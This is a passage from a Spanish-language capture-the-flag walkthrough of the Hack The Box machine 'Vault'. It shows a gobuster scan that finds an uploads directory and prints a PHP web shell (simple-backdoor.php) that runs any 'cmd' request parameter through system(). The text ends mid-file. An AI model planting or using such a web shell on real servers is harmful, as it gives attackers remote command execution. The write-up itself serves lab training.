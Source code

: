 Resulta que puedo subir archivos al servidor mediante esta interfaz. Esto ya sabemos que es sinónimo de reverse shell. Voy a buscar un script que me sirva para este escenario y procederé a subirlo.<br/><br/>

Una vez que subo el shell, tengo que encontrar la forma de ejecutarlo a través de la ruta en la que se encuentra. Voy a realizar una enumeración de directorios en la ruta '/sparklays/design/' a ver si hay suerte.<br/>

    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# gobuster dir --url http://10.10.10.109/sparklays/design/ --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.109/sparklays/design/
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.hta                 (Status: 403) [Size: 308]
    /.htaccess            (Status: 403) [Size: 313]
    /.htpasswd            (Status: 403) [Size: 313]
    /uploads              (Status: 301) [Size: 331] [--> http://10.10.10.109/sparklays/design/uploads/]
    Progress: 4723 / 4724 (99.98%)
    ===============================================================
    Finished
    ===============================================================

Resulta que existe un directorio llamado 'uploads' dentro de design. El shell que subí es uno que ya trae Kali Linux y el código es el siguiente.<br/>

    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# cp /usr/share/webshells/php/simple-backdoor.php .     
                                                                                                                                                                
    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# mv simple-backdoor.php shell.php5                                                      
                                                                                                                                                                
    ┌──(root㉿kali)-[/home/nico/htb/vault]
    └─# cat shell.php5                                   
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

